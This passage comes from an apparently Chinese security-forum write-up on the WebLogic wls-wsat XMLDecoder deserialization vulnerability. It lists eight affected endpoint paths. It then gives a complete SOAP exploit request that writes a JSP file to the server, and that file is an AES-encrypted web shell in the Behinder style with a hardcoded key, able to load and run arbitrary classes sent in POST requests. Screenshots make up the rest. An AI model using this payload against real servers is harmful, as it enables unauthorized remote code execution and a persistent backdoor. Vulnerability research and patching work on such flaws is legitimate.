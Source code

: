 ![image-20210809141314849](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-c7f00692814945d8836fdb683e30c17f3696a940.png)

![image-20210809141512699](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-b3c2599723cbd7ad7a248b9fb469aea0de11ebf2.png)

总结下来就是下面这些url会受到影响；

```php
/wls-wsat/CoordinatorPortType
/wls-wsat/RegistrationPortTypeRPC
/wls-wsat/ParticipantPortType
/wls-wsat/RegistrationRequesterPortType
/wls-wsat/CoordinatorPortType11
/wls-wsat/RegistrationPortTypeRPC11
/wls-wsat/ParticipantPortType11
/wls-wsat/RegistrationRequesterPortType11
```

##### 漏洞复现

抓包，修改内容

```php
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
 <soapenv:Header>
 <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
 <java><java version="1.4.0" class="java.beans.XMLDecoder">
 <object class="java.io.PrintWriter"> 
 <string>servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/zcc.jsp</string>
 <void method="println">
<string>
 <![CDATA[
<%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*"%><%!class U extends ClassLoader{U(ClassLoader c){super(c);}public Class g(byte []b){return super.defineClass(b,0,b.length);}}%><%if (request.getMethod().equals("POST")){String k="e45e329feb5d925b";session.putValue("u",k);Cipher c=Cipher.getInstance("AES");c.init(2,new SecretKeySpec(k.getBytes(),"AES"));new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);}%>
 ]]>
 </string>
 </void>
 <void method="close"/>
 </object></java></java>
 </work:WorkContext>
 </soapenv:Header>
 <soapenv:Body/>
</soapenv:Envelope>
```

![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-82b84fce73308d9fec77379eb70a79a5252ce27f.png)

![image-20210809162737924](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-fba131ee6cc8d5792b98ab6ba914f5f1391739dc.png)

![image-20210809162717485](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-a623a5a77aed1b662ba2d67bb456b1dee1075d32.png)
